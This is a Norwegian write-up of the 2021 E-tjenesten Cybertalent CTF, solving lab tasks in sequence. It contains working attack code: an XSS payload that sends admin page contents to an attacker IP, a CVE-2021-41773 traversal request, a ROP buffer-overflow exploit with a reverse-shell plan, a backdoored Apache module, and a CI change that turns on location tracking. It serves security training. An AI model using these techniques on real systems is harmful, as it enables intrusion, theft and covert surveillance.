


# Cybertalent CTF, julen 2021

For tredje gang avholdt E-tjenesten en CTF, i forbindelse med sitt talentprogram innen cyberoperasjoner. Det ble brukt samme plattform som de to foregående gangene, men til forskjell fra årene før, så har tidligere års oppgaver ikke blitt inkludert i årets program (disse ga ikke poeng i fjor, men var frivillige). CTFen foregår i sin helhet på en server, som logges inn på via SSH med en vilkårlig pubkey. Hash av pubkey fungerer som en brukerid i systemene, så man kunne logge inn fra hvor som helst og få tilgang til lokale filer på maskinen - så lenge man hadde samme SSH key tilgjengelig.

I tillegg til et stadig voksende sett med grunnleggende oppgaver, var det også et oppdrag som involverte ~6 ulike maskiner, i en privat Docker stack for hver deltager. Som før, var det også en del utfordringer å bryne seg på, som et avbrekk i oppdraget - eller som en motivator for de som ønsker å løse alt 100%.

## 1. Grunnleggende

Oppgave 1-6 er repetisjoner fra årene før. 7 og 8 er nye.

[Oppgave 1-4 og 6](https://github.com/myrdyr/ctf-writeups/blob/master/etjenesten20/README.md#1-grunnleggende)

[Oppgave 5](https://github.com/myrdyr/ctf-writeups/blob/master/etjenestenjul20/README.md#1-grunnleggende)

### 1.7_path_traversal

Mappen inneholder flere filer

```
login@corax:~/1_grunnleggende/7_path_traversal$ ls -la
total 23
drwxr-xr-x 3 root   root   1024 Dec 13 11:07 .
drwxr-xr-x 9 login  login  1024 Dec 13 11:07 ..
-r-------- 1 basic7 login    40 Jan  6 15:21 BONUS_FLAGG
-r-------- 1 basic7 login    40 Jan  6 15:21 FLAGG.txt
-rw-r--r-- 1 basic7 login   814 Dec 13 11:07 LESMEG.md
drwxr-xr-x 2 basic7 login  1024 Dec 13 11:07 bok
-r-sr-xr-x 1 basic7 login 14368 Dec 13 11:07 les_bok
-rw-r--r-- 1 basic7 login  1733 Dec 13 11:07 les_bok.c
```

Hvor `les_bok` har `setuid` satt, slik at den kjører som brukeren `basic7`. [Kildekoden](les_meg.c) er forholdsvis enkel og grei, hvor `main()` itererer over argumentene til programmet, og kaller `show_file()` på de, gitt at de passerer sjekken i `filename_ok()`.

`filename_ok()` itererer over hele filnavnet, og sjekker om noen av bokstavene er en av ```&;$|<> ` ```, som er "farlige" tegn man skal unngå, hvis man kjører en string som en kommando. Disse kan nemlig bryte ut av strengen, eller kjøre sub-kommandoer i visse situasjoner.

`show_file()` genererer kommandoen `less bok/<input_her>.txt`, setter `LESSSECURE=1` i env (gjør at man ikke kan bryte seg ut av less og kjøre kommandoer eller åpne nye filer), og så kalles libc sin `system()` på hele strengen. Feilen her, er at de også kjører `url_decode()` på kommandoen først. Sistnevnte funksjon gjør normal URL-dekoding på segmenter av formatet "%xx", f.eks. blir "%41" til 'A'.

Løsningen er derfor ganske enkel. Siden programmet tar flere argumenter som input, men starter med "bok/" og slutter med ".txt", så er det fullt mulig å bruke "%20" til å injecte mellomrom mellom de forskjellige segmentene. Eksempelvis vil denne funksjonen lese både flagg og bonusflagg.

`./les_bok "../FLAGG.txt%20BONUS_FLAGG%20"`

Dette åpner 3 filer: `bok/../FLAGG.txt`, `BONUS_FLAGG` og `.txt`, hvor sistnevnte ikke finnes.

### 1.8_path_traversal_bonus

Etter å ha kjørt kommandoen i 1.7, skriv `:n` inne i `less` for å hoppe til neste fil, som inneholder `BONUS_FLAGG`.

## 2. Oppdrag

Årets oppdrag er beskrevet i [INTREP.txt](INTREP.txt), som har to viktige URLer, og filen `app.apk`. Writeups under må leses i noenlunde kronologisk for å gi mening for en som ikke har sett på noen av oppgavene før, ettersom de henger veldig tett sammen. Det gir lite mening å stykke ut en uavhengig forklaring for hvert flagg i oppdraget.

### 2.01_app

Nettstedet `http://blog.utl` krever innlogging, og den vedlagte appen er en modifisert TOR-klient, som går til et domene som peker til bloggen. Slik kan den også enkelt nås fra utsiden av SSH-serveren. `AndroidManifest.xml` viser at `org.torproject.android.sample.MainActivity` er det som kjøres først, og inne i dens `onCreate`-metode finnes det et brukernavn, samt et passord som kjøres gjennom funksjonen `rot13()` før det tas i bruk. Dette passordet er første flagget.

> Veldig bra!
> Android-applikasjonen ser ut til å tilhøre en tjeneste aktøren benytter. Undersøk tjenesten og se om det kan gi oss videre aksess til tjenestene deres.


### 2.02_blog_1

Etter å ha logget inn som `user`, så finnes neste flagg i HTML-kilden som en meta tag.

> Bra jobbet!
> Du har funnet tjenesten. Det ser ut som den blir benyttet for kommunikasjon. Undersøk videre om tilgangen til tjenesten åpner for flere muligheter.


### 2.03_blog_2

Inne på bloggen, er det mange poster og kommentarer. Gjennom `robots.txt` vises det også en del skjulte endepunkter:

```
/auth/login
/auth/register
/logs

/admin
/admin/update
```

hvor `/logs` har en output som minner veldig om en standard `access.log`. Endepunktet viser at det er noen med user-agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36` som konstant besøker nettsiden. Hvis det legges inn en ny post, så tar det ikke mange sekundene før brukeren `admin` hopper inn og kommenterer `Cool post!`.

Etter litt prøving og feiling, så innser jeg at det er ingen begrensninger på hva man kan poste, og dermed virker det fint med f.eks. XSS (Cross-Site Scripting). Første tanke var da å bruke XSS til å lekke admin sin session cookie, men denne har `httponly`-flagget satt, så den er ikke tilgjengelig via JavaScript. Siden endepunktet `/admin` er kjent, kan man derimot lure admin til å besøke dette nettstedet, og så sende innholdet til oss. Merk at admin ikke har helt bra DNS-resolving, så man må bruke direkte IP til en boks i nettverket.

```html
<script>
fetch('/admin')
.then(response => response.text())
.then(text => fetch("http://10.x.x.x:8000/?data=" + btoa(unescape(encodeURIComponent(text)))))
</script>
```

Kildekoden til denne siden inneholder flagget, og noen interessante funksjoner

```html
<section class="content">
  <header>

  <h1>Infrastructure Management</h1>

  </header>


  <h1> FLAG: xxxxxxx </h1>

  <form action="/admin/update" method="post">
    <label for="service">Service:</label>
    <select name="service" class="selectpicker form-control">

      <option value="apache">anvilshop.utl ( apache )</option>

    </select>


    <label for="version">Version</label>
    <select name="version" class="selectpicker form-control">

          <option value="2.4.51">2.4.51</option>

          <option value="2.4.49">2.4.49</option>

    </select>
    <input class="btn" type="submit" value="Update">
  </form>

</section>
```

> Godt utført!
> Tilgang til administrasjonspanelet kan bli nyttig for videre aksess.


### 2.04_webserver_1

Tar vi nå en titt på `http://anvilshop.utl`, så er det ikke så mye som skjer. Men gjennom informasjonen fra admin-panelet, så vet vi at det er mulig å nedgradere Apache-versjonen til 2.4.49. Igjen lurer vi admin til å lese en XSS-payload:

```html
<form action="/admin/update" method="post" id="foo">
<input type="hidden" value="apache" name="service">
<input type="hidden" value="2.4.49" name="version"</input>
<input class="btn" type="submit" value="Update">
</form>
<script>document.getElementById("foo").submit()</script>
```

Etter å ha nedgradert, så blir flagget for webserver_1 tilgjengelig.

> Veldig bra!
> Du fikk nedgradert apache-versjonen, gir dette noen nye muligheter?


### 2.05_webserver_2

Akkurat denne Apache-versjonen er sårbar mot `CVE-2021-41773`, som beskrives slik av MITRE:

```
A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013
```

Gjennom INTREP.txt har det også blitt utgitt informasjon om pathen `http://anvilshop.utl/cgi-bin/lootd.v2/download?app.apk`, så det er allerede en mappe der som er kjent, som vi kan bruke videre i et angrep. Som proof of concept prøver jeg å lese ut `/etc/passwd`, og der ligger flagget (i tillegg til i Apache og SSH config).

```
login@corax:~/1_grunnleggende/7_path_traversal$ curl 'http://anvilshop.utl/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'
root:x:0:0:root:/root:/bin/ash
...
nobody:x:65534:65534:nobody:/:/sbin/nologin
user:x:1000:1000:Linux User,,,:/home/user:/bin/ash
apache:x:100:101:apache:/var/www:/sbin/nologin
# FLAGG: xxxxxxxxx
```

> Supert!
> Du har funnet en inngangsvektor til apache-serveren. Kan du få shell-aksess på serveren? Serveren ser ut til å ha port 22 åpen. Finnes det noen muligheter der?


### 2.06_lootd_1

Ettersom det å nedgradere serveren fører til at mod-cgi blir skrudd av, blir det også mulig å laste ned lootd-programmet, som vi ble informert om i [INTREP.txt](INTREP.txt)

`login@corax:~$ curl "http://anvilshop.utl/cgi-bin/lootd.v2" -o lootdv2`

Inne i dette programmet, så er det gjemt et ASCII art-flagg på adresse `.FLAG:000000000040B3C0`. Det er mulig å lese ut dette ved å printe det ut til en terminal e.l., ettersom det hovedsaklig består av ANSI escape codes.

> Bra funn! Kanskje det er mer å finne i dette programmet?


### 2.07_lootd_2

Det er flere sårbarheter i dette programmet, men det kan ta noe tid å skjønne hvordan alt henger sammen. For å gjøre ting enkelt, så har programmet to ulike måter å kjøre på: En for kommandolinje, og en for kall via CGI-funksjonaliteten til Apache. Disse måtene å kjøre programmet på, har ulike veier gjennom programmet, og ditto ulike metoder for å returnere output til klienten. De interessante funksjonene for CGI-delen har `_cgi` etter hvert funksjonsnavn, og de andre har `_cli`.

Hovedsaklig, er dette programmet en wrapper for `/usr/sbin/moveloot`, en setuid-binary som kan lese filer og lagre de i `/vault/loot` med randomisert filnavn. Sistnevnte mappe er uleselig for andre enn root, så det er ikke mulig å se hvilke filer som befinner seg der en gang.

Ved å se på beskyttelsene i filen, så hinter det sterkt til at neste steg er binary exploitation

```
root@b07ee785d712:/ctf/work# checksec lootdv2
[*] '/ctf/work/lootdv2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

man må nemlig gå inn for å skru av stack canaries, og det samme gjelder også PIE (Position Independent Code).

Sårbarheten jeg gikk for, finnes i `cgi_handler_download()`.

```c
__int64 cgi_handler_download()
{
  unsigned int token_ok; // eax
  unsigned int v1; // ebx
  unsigned int v3; // eax
  size_t v4; // rbp
  int v5; // ebp
  int v6; // eax
  char *v7[8]; // [rsp+0h] [rbp-E8h] BYREF
  char filename[136]; // [rsp+40h] [rbp-A8h] BYREF
  char *envp; // [rsp+C8h] [rbp-20h] BYREF

  token_ok = cgi_token_ok();
  if ( token_ok )
  {
    memset(filename, 0, 0x80uLL);
    if ( query_string_decode(filename) && filename[0] )
    {
      ...
    }
}
```

hvor `query_string_decode()` kalles

```c
__int64 __fastcall query_string_decode(char *dest)
{
  __int64 result; // rax
  char *has_query_string; // rsi
  int v3; // edx
  int v4; // ecx

  result = 0LL;
  if ( dest )
  {
    has_query_string = getenv("QUERY_STRING");
    result = 0LL;
    if ( has_query_string )
    {
      strcpy(dest, has_query_string);
      url_decode(dest, has_query_string, v3, v4);
      return 1LL;
    }
  }
  return result;
}
```

og her kopieres (strcpy) bare QUERY_STRING rett inn i et buffer definert som `char filename[136]`. Det er en ganske åpenbar buffer overflow, og med den er det mulig å overskrive retur-adressen på stacken, ettersom det ikke er noen canary der for å beskytte den. Ved å bruke Return-Oriented Programming (ROP), kombinert med alle gadgetene gjemt i filen `egg.jpg` som er embeddet i ELF-fila, er det mulig å kjøre egen kode som `apache`-brukeren. 

Å få kjørt `execve` på en streng er ikke så vanskelig, gitt alle ROP-gadgetene vi har, men å skape en streng skulle vise seg å være vanskelig. Løsningen min benytter pwntools, og utnytter det at jeg gjorde `2.09_pam` før denne oppgaven, og dermed hadde skrivetilgang som `user` på samme maskin.

```python
from pwn import *
from urllib.parse import quote

SCRATCH   = 0x40E220
WRITE_RAX = 0x40a3d3
POP_RAX   = 0x401001
POP_RDX   = 0x403e03

rop = ROP(elf)
rop.execve(SCRATCH, 0, 0)

env["QUERY_STRING"] += "A"*160 + "B"*8
env["QUERY_STRING"] += quote(p64(POP_RAX))
env["QUERY_STRING"] += quote(p64(SCRATCH-8))
env["QUERY_STRING"] += quote(p64(POP_RDX))
env["QUERY_STRING"] += quote(b"/tmp".ljust(8, b"\x00"))
env["QUERY_STRING"] += quote(p64(WRITE_RAX))
env["QUERY_STRING"] += quote(p64(0xdeadbeefdeadbeef)) # RBX

env["QUERY_STRING"] += quote(p64(POP_RAX))
env["QUERY_STRING"] += quote(p64(SCRATCH-8+4))
env["QUERY_STRING"] += quote(p64(POP_RDX))
env["QUERY_STRING"] += quote(b"/g".ljust(8, b"\x00"))
env["QUERY_STRING"] += quote(p64(WRITE_RAX))
env["QUERY_STRING"] += quote(p64(0xdeadbeefdeadbeef)) # RBX

env["QUERY_STRING"] += quote(rop.chain())

r = remote("x.x.x.x", 80)
payload  = f"GET /cgi-bin/lootd.v2/download?{env['QUERY_STRING']} HTTP/1.1\r\n"

payload += "Host: anvilshop.utl\r\n"
payload += "User-Agent: curl/7.80.0\r\n"
payload += "Accept: */*\r\n"
payload += "Authorization: xxxx...\r\n"
payload += "\r\n"
r.send(payload.encode())
r.interactive()
```

Her er `SCRATCH` definert til et skrivbart område rundt `.bss`, som ikke var i bruk. Med den bruker jeg gadgeten `WRITE_RAX` som består av

```
mov dword ptr [rax + 8], edx
mov eax, 0
pop rbx
ret
```

og dermed skriver 4 bytes til `[RAX+8]`. Ved å gjøre dette to ganger, blir det skrevet `/tmp/g\x00\x00` til denne adressen, og via SSH-tilgang med `user`-brukeren kan jeg legge inn et bash-script i `/tmp/g`, som `apache`-brukeren da ender opp med å kjøre. Her setter kun fantasien grenser, men det enkleste er å sette opp et reverse shell via netcat.

Ved å oppgradere maskinen til 2.4.51 igjen, er det mulig å kjøre lootd.v2 via cgi-bin, og unytte eventuelle feil i programmet med et script som over. Med reverse shell, er det mulig å lese de opplastede filene. Der ligger et flagg som har et navn som er vanskelig å gjette navnet til, slik at man ikke kan løse oppgaven med LFI alene.

> Bra pwnet! Got root?


### 2.08_lootd_3

Neste steg er å roote maskinen. Jeg trodde at jeg kunne slippe unna dette, ved å kjøre samme triks som tidligere år, hvor jeg gjettet filnavn tilbake i tid. Dette fungerte til en viss grad, men det var ingen flagg å finne der. I alle fall ikke for oppdraget.

Dette steget er egentlig ganske enkelt om man har kjenner til hvordan Apache fungerer. Å lytte på porter lavere enn 1024 er en priviligert operasjon, som bare root kan gjøre. Siden Apache lytter på port 80, så kjøres hovedprosessen som root-brukeren, og ved hver tilkobling så forkes programmet ut til en prosess med lavere privilegier. `apache`-brukeren har fått tilgang til å starte opp Apache som root via `sudo`, men er låst til å kalle hele kommandoen

`sudo -u root /usr/sbin/httpd -k graceful`

Det er, så vidt meg bekjent, ingen måte å utnytte selve sudo-oppsettet her. Men apache-brukeren har noen interessante tilganger til Apache sine moduler. Det er nemlig fullt mulig å overskrive en Apache-modul med noe eget, og så starte opp `httpd` på nytt. Da blir modulen med bakdør lastet inn, og helt i starten av kjøringen vil denne ha tilgang som root-brukeren.

Her tok jeg en vilkårlig "Hello, World!"-modul fra Internett, og la inn følgende i starten av koden

```c
__attribute__((constructor)) void foo(void) { system("/tmp/g");};
```

Dette gjør at med en gang modulen lastes inn, så vil funksjonen `foo()` kjøres, og den kaller reverse-shell-scriptet som ligger på `/tmp/g` fra før. Utfordingen her, er egentlig å bygge sammen alt, ettersom Apache vil ha modulen på et veldig spesifikt format, og det må kompileres med musl-libc. Ved å overskrive f.eks. `/usr/lib/apache2/mod_autoindex.so` med denne "onde" modulen, kommer det et shell som root. Inne i vault ligger siste flagg på denne maskinen.

```
/vault/loot # cat November17_MeetingSummary.txt
November 17 meeting summary

This is a short summary of todays meeting that is necessary for those of you who could not attend.
We have, based on the reconnaissance by Foxcatcher and BerryGood, decided on a plan for the
sabotage operation.

...

FLAG:xxxx
```

> Fantastisk!
> Møtereferatet inneholder kritisk informasjon!
> Serveren ser ut til å være koblet til et internt nettverk. Vi mistenker at dette blir benyttet av aktøren til utvikling av egne tjenester. Kan du undersøke mulighetene for lateral bevegelse i nettet?


### 2.09_pam

Ved å forsøke å logge inn som `user` over SSH, så får man en merkelig prompt

```
login@corax:~$ ssh user@anvilshop
Warning: Permanently added the ECDSA host key for IP address '10.x.x.x' to the list of known hosts.
Challenge [t=1640598232]:
```

Andre brukernavn gir feilmeldingen `Sorry, only a single "user" is allowed to sign in on our SSO solution`. Med lesetilgang til filsystemet gjennom nedgradert Apache, er det mulig å lese ut `/etc/ssh/sshd_config`:

```
AuthenticationMethods keyboard-interactive:pam #/lib/security/pam_custom.so
ChallengeResponseAuthentication yes
PermitRootLogin no
UsePAM yes
PasswordAuthentication no
```

Kommentaren referer til `/lib/security/pam_custom.so`, som også kan hentes ut. Denne modulen inneholder logikken for å autentisere en bruker, så da må det litt reversing til.

Wrapperen finnes i `pam_sm_authenticate()`

```c
__int64 __fastcall pam_sm_authenticate(__int64 a1)
{
  int v2; // [rsp+20h] [rbp-20h]
  unsigned int v3; // [rsp+24h] [rbp-1Ch]
  char *s1; // [rsp+28h] [rbp-18h] BYREF
  char *s2; // [rsp+30h] [rbp-10h]
  unsigned __int64 stack_cookie; // [rsp+38h] [rbp-8h]

  stack_cookie = __readfsqword(0x28u);
  s2 = "user";
  if ( sodium_init() )
    return 9LL;
  if ( pam_get_user(a1, &s1, 0LL) )
    return 7LL;
  if ( !strcmp(s1, s2) )
  {
    v2 = check_pam_rhost(a1);
    v3 = challenge_response_authenticate(a1, s1);
    if ( v2 )
    {
      pam_prompt(a1, 4LL, 0LL, "Sorry, the SSO solution is only available via the internal network");
      return 11LL;
    }
    else
    {
      return v3;
    }
  }
  else
  {
    pam_prompt(a1, 4LL, 0LL, "Sorry, only a single \"user\" is allowed to sign in on our SSO solution");
    return 11LL;
  }
}
```

Videre, i `challenge_response_authenticate()`, så er dette den interessante delen av koden

```c
  memset(nonce, 0, sizeof(nonce));
  epoch = time(0LL);
  v7 = snprintf(s, 0x80uLL, "Challenge [t=%zu]: ", epoch);
  if ( v7 > 0x7F )
    return 9LL;
  message_len = snprintf(message, 0x80uLL, "username=%s:timestamp=%zu", username, epoch);
  if ( message_len > 0x7F )
    return 9LL; // FAIL
  if ( get_expected_response(message, message_len, nonce, &out) )
  {
    v3 = 9; // FAIL
  }
...
```

hvor en streng med brukernavn og timestamp går inn i en funksjon, og målet er å kunne regne ut samme respons som serveren. Inne i `get_expected_response()` gjøres følgende

```c
__int64 __fastcall get_expected_response(__int64 message, __int64 message_len, __int64 nonce, void **out)
{
  size_t v5; // rax
  __int64 v6; // rax
  unsigned int v9; // [rsp+2Ch] [rbp-24h]
  __int64 key; // [rsp+30h] [rbp-20h] BYREF
  __int64 v11; // [rsp+38h] [rbp-18h]
  __int64 ciphertext; // [rsp+40h] [rbp-10h]
  unsigned __int64 v13; // [rsp+48h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  v11 = message_len + 16;
  if ( !message || !nonce || !out )
    return 9LL;
  ciphertext = sodium_malloc(v11);
  v5 = bin2hex_length(v11);
  *out = calloc(1uLL, v5);
  if ( ciphertext && *out )
  {
    if ( read_key_from_file("/tmp/keyfile", &key) )
    {
      v9 = 9;
    }
    else if ( crypto_secretbox_easy(ciphertext, message, message_len, nonce, key) )
    {
      v9 = 9;
    }
    else
    {
      v6 = bin2hex_length(v11);
      sodium_bin2hex(*out, v6, ciphertext, v11);
      v9 = 0;
    }
  }
  else
  {
    v9 = 9;
  }
  sodium_free(ciphertext);
  sodium_free(key);
  return v9;
}
```

Kort oppsummert, så åpnes filen `/tmp/keyfile`, og denne brukes som en key, sammen med nonce (bare nuller) og strengen fra forrige steg. Parameterne går inn i libsodium sin secretbox_easy-implementasjon. Resultatet blir lagret i `ciphertext` som en hexadecimal streng, og det kjøres en compare mellom denne og inputen som mottas over SSH.

Ekvivalent kode for å generere token i Python er ganske kort

```python
from pysodium import crypto_secretbox as crypto_secretbox_easy
import sys
t = int(sys.argv[1])
u="user"
message = f"username={u}:timestamp={t}".encode()
print(crypto_secretbox_easy(message, bytes(24), open("keyfile","rb").read()).hex())
```

og fordrer at man også bruker LFI-funksjonaliteten til å lese ut keyfile også. Endelig kan man logge inn som `user`, og i hjemmeområdet til brukeren ligger det et flagg.

> Bra jobbet! Kan denne apache-serveren brukes til noe?


### 2.10_workstation

Innlogget som `user@anvilshop.tld`, kan man utforske hjemmeområdet til brukeren litt.

```
login@corax:~$ ssh user@anvilshop
Challenge [t=1641599261]: d62f31857eb23f2b7065f59b47f6330bf07c42bc46033dcd6c33c7ced4f05e24f39b819b306d536e411db24441a4a4ecf02c
              _ _    _
 __ _ _ ___ _(_) |__| |_  ___ _ __
/ _` | ' \ V / | (_-< ' \/ _ \ '_ \
\__,_|_||_\_/|_|_/__/_||_\___/ .__/
                             |_|
user@anvilshop ~ > ls -la .ssh
total 4
drwx------    2 user     user            43 Dec 13 10:07 .
drwxr-sr-x    1 user     user            26 Dec 13 10:07 ..
-rw-r--r--    1 user     user             0 Dec 13 10:07 authorized_keys
-rw-r--r--    1 user     user            71 Dec 13 10:07 config
user@anvilshop ~ > cat .ssh/config
Host workstation
    Hostname workstation.anvilshop.utl
    User user
```

Det er altså mulig å kjøre en `ssh workstation`, taste inn enda en SSO-kode, og så bli logget inn på en annen server, hvor det befinner seg enda et flagg.

> Bra jobbet!
> Dette ser ut som en utviklermaskin. Hva har utvikleren jobbet med?


### 2.11_cicd

Vel inne på `workstation`, finner vi et GIT-repo som inneholder koden for appen som ble brukt i første del av oppdraget. Det er flere ting å oppdage med dette repoet, men det viktigste er å se det at brukeren på maskinen har en private key, og kjenner til remoten hvor repoet ligger. Dette tyder på at målet er å faktisk interagere med repoet på et vis, eksempelvis ved å pushe ny eller endret kode. Forsøkes dette, så oppdager man fort en hook i `SecureBrowser/.git/hooks/pre-commit`, hvor det er en kodesnutt som kjører på serveren før hver commit.

I denne koden, så åpnes alle filene i hele repoet, og innhold/filnavn blir appendet sammen i en gigantisk streng. Denne hashes så med SHA3-512, og blir verifisert mot en GPG-signatur i repoet. Det er tilsynelatende umulig å endre koden, uten også å signere endringen vi har gjort, men uten key er dette så og si umulig.

Koden gjør derimot en stor feil her

```python
# Delete hidden directories
for i, d in enumerate(dirnames):
    if d.startswith("."):
        del(dirnames[i])
```

hvor alle filnavn som starter på "." ikke blir med i hashen. En av disse er `.ci-settings.yml`, hvor det er mulig å sette environment-variabler til Gradle, som skal bygge APKen.

Filen `build.gradle` definerer følgende typer, og leser inn `DEBUG_WITH_BAD_OPSEC`

```groovy
buildTypes {
    debug {
        minifyEnabled false
        proguardFiles getDefaultProguardFile('proguard-android.txt'), 'proguard-rules.pro'
        resValue "string", "debug", "$System.env.DEBUG_WITH_BAD_OPSEC"
        resValue "string", "label", "$System.env.VERSION"
    }
}
```

Ser man samtidig på `SecureBrowser/sampletorapp/src/main/java/org/torproject/android/sample/MainActivity.java` finner man denne kodesnutten

```java
registerReceiver(new BroadcastReceiver() {
    @Override
    public void onReceive(Context context, Intent intent) {
        String s = intent.getStringExtra(TorService.EXTRA_STATUS);
        if (s.equals(TorService.STATUS_ON)) {
            try {
                webView.postUrl(default_url() + "/auth/login", "Posting secure settings data".getBytes());

                if (getString(R.string.debug).equals("true")) {
                    if (checkPermissions()) {
                        init();

                        //noinspection MissingPermission
                        mFusedLocationClient.requestLocationUpdates(mLocationRequest,
                                mLocationCallback, Looper.myLooper());
                    }
                }else{
                    Toast.makeText(getApplicationContext(), "Location logging & viewing is disabled",Toast.LENGTH_LONG).show();
                }
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        Toast.makeText(context, "TOR: ".concat(s), Toast.LENGTH_SHORT).show();
    }
}
```

Her sjekkes det om debug er lik strengen `"true"`, og hvis den er det, så skrus det på logging av posisjonsdata. Lengre inn i koden, kan man se at følgende skjer når lokasjonen er tilgjengelig for appen:

```java
mLocationCallback = new LocationCallback() {
    @Override
    public void onLocationResult(LocationResult locationResult) {
        super.onLocationResult(locationResult);
        mCurrentLocation = locationResult.getLastLocation();
        mLastUpdateTime = DateFormat.getTimeInstance().format(new Date());

        SharedPreferences sharedPrefs = PreferenceManager.getDefaultSharedPreferences(getApplicationContext());
        String username = sharedPrefs.getString("username", "");

        String lat = getLatitudeAsDMS(mCurrentLocation, 2);
        String lng = getLongitudeAsDMS(mCurrentLocation, 2);
        try {
            webView.loadUrl(default_url() + "/submit_position?"+ "user=" + username + "&lat=" + lat + "&lng=" + lng);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
};
```

altså posisjonen submittes til bloggen ved innlogging.

Målet er klart. Vi legger til en property `ORG_GRADLE_PROJECT_DEBUG_WITH_BAD_OPSEC=true` i `.ci-settings.yml`, og committer denne. Branchen må hete "release" for at CI skal kjøres i det hele tatt.

```
user@workstation:~/SecureBrowser$ git checkout -b release
Switched to a new branch 'release'

user@workstation:~/SecureBrowser$ emacs .ci-settings.yml
user@workstation:~/SecureBrowser$ git commit -a -m "foo"
Hash not changed - all good :)

Signature verification:
        SUCCESS!
[release 7f763ae] foo
 1 file changed, 1 insertion(+)

user@workstation:~/SecureBrowser$ git diff HEAD~1..HEAD
diff --git a/.ci-settings.yml b/.ci-settings.yml
index f9c62c1..f98550c 100644
--- a/.ci-settings.yml
+++ b/.ci-settings.yml
@@ -3,6 +3,8 @@ build:
         output_file: "./build_output/SecureBrowser.apk"
         env:
             - ORG_GRADLE_PROJECT_VERSION=v1.33.7
+            - ORG_GRADLE_PROJECT_DEBUG_WITH_BAD_OPSEC=true

 deploy:
     request:

user@workstation:~/SecureBrowser$ git push -u origin release
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 279 bytes | 279.00 KiB/s, done.
Total 3 (delta 2), reused 0 (delta 0)
remote:
remote: ##############################################
remote: ##### CONTINUOUS INTEGRATION & DELIVERY ######
remote: ##############################################
remote: Running CI/CD for branch 'release'
remote:
remote: Building:
remote: ................................................
remote:         SUCCESS
remote:
remote: Deploying:
remote: ........................................................
remote:         SUCCESS
remote: Build info:
remote:         BUILD_TOOL: gradle
remote:         BUILD_TOOL_VERSION: 6.5
remote:         APP_VERSION: v1.33.7
remote:         DEBUG: true
remote:         MINIFY: false
remote:         PROGUARD: false
remote:         Here, have a flag: xxxxxxxx
To cicd.utl:git_repo
   6e067d7..7f763ae  release -> release
Branch 'release' set up to track remote branch 'release' from 'origin'.
```

```
Godt gjennomført supply chain-angrep!
Kan du nå finne posisjon til agentene som har oppgradert til din "nye" versjon av applikasjonen?
```


### 2.12_position

Ved å besøke `/logs/`på bloggen nå, så er det plutselig mulig å lese ut posisjonene til alle sammen.

```
KingLizard: 59°30'59.8"N 6°38'08.7"E
BerryGood: 59°28'58.6"N 6°14'59.5"E
Foxcatcher: 59°28'58.6"N 6°14'59.5"E
Tracker: 59°25'24.2"N 5°16'32.0"E
TableTurner: 58°58'09.5"N 5°43'54.1"E
FLAG: xxxxxxxxxx  Good work!
```

> Veldig bra!
> Posisjon raportert.
> For å løse oppdraget fullstendig trenger vi både posisjonen til agentene og referatet med planene deres. Fullfør oppdraget slik:
> echo "${FLAGG_REFERAT}${FLAGG_POSISJON}" | xargs scoreboard


### 2.13_mission_success

Dette flagget er bare to flagg satt sammen. Det ene er fra referatet i `2.08_lootd_3` og det andre er fra posisjonsloggen i `2.12_position`.

Blant gratulasjoner og info om talentprogrammet deres, finner man også informasjonen

> Informasjonen som du har hentet inn hos oss er nå overlevert til PST. Dette flagget kan også leveres i deres julekalender 13. desember.

så dette flagget kan også brukes på (N)PST sin julekalender.


## 3. Utfordringer

### 3.1. Utfordringer lett

#### 3.1.1_krypt_lett

> Programmet PKrypt brukes for å kryptere meldinger. Du har fått tak i en melding kryptert med denne algoritmen.  
> Kan du dekryptere meldingen?
> Flagget er på formen etj{et_ikke_veldig_vist_visdomsord}  

Prøver å løse denne som blackbox først, med antagelse om at den er enkel. `flagg.txt.p` inneholder 92 hex-bytes, og ved å ha 46 'a'-bokstaver som input, blir output også 92 hex-bytes. Ved å dekode hex-bytene fra min output, og XORe de med inputen, får jeg strengen `"5296899577362259941389124972177528347913151557"` (desimalene til pi på offset 1057). Ved å XORe denne strengen med det hex-dekodede flagget popper det ut et flagg

```
>>> a=bytes.fromhex("54535857595858545656525753535458585550525958505355585653505656545359525556585052505450545456")
>>> b=bytes.fromhex("5046534d5440525e525b5a516d5747665d515f6c4b565c6d425c436d425e44415767405d515f54416e5c6e455c4a")
>>> a
b'TSXWYXXTVVRWSSTXXUPRYXPSUXVSPVVTSYRUVXPRPTPTTV'
>>> b
b'PFSMT@R^R[ZQmWGf]Q_lKV\\mB\\CmB^DAWg@]Q_TAn\\nE\\J'
>>> xor(a, b"a"*46)
b'5296899577362259941389124972177528347913151557'
>>> xor(b, _)
b'etj{lykkelig_er_den_som_vet_siste_siffer_i_pi}'
```

#### 3.1.2_verdifull_fil

> I dag lærte jeg nytten av å ha backup. 
> En av mine verdifulle filer har blitt sjålet, men jeg hadde heldigvis en backup.
> Problemet er at backupen har blitt sendt igjennom et program før den ble lagret.
> Kan du gjenopprette orginalfilen for meg?

